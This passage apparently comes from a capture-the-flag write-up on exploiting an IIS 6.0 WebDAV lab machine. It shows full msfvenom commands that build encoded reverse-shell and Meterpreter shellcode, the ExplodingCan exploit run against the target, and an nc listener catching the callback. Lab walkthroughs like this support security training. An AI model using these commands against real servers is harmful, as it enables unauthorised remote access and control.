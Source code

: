 ### ExplodingCan - Kinda Fail

The nicest script I found is [this one](https://github.com/danigargu/explodingcan), which runs with a target url and a shellscript file. I created shellcode the same way as in the example:

```

root@kali# msfvenom -p windows/shell_reverse_tcp -f raw -e x86/alpha_mixed LHOST=10.10.14.47 LPORT=443 > shellcode_rev_10.10.14.47_443
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed succeeded with size 710 (iteration=0)
x86/alpha_mixed chosen with final size 710
Payload size: 710 bytes

```

Now I can run the exploit:

```

root@kali# python explodingcan.py http://10.10.10.14 shellcode_rev_10.10.14.47_443
[*] Using URL: http://10.10.10.14
[*] Server found: Microsoft-IIS/6.0
[*] Found IIS path size: 18
[*] Default IIS path: C:\Inetpub\wwwroot
[*] WebDAV request: OK
[*] Payload len: 2190
[*] Sending payload...

```

I get a connection at `nc`, but it immediately dies:

```

root@kali# rlwrap nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.14.
Ncat: Connection from 10.10.10.14:1037.

```

I did some experimenting, and the Meterpreter payload works fine:

```

root@kali# msfvenom -p windows/meterpreter/reverse_tcp -f raw -e x86/alpha_mixed LHOST=10.10.14.47 LPORT=443 > shellcode_msf_10.10.14.47_443
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed succeeded with size 744 (iteration=0)
x86/alpha_mixed chosen with final size 744
Payload size: 744 bytes    

```
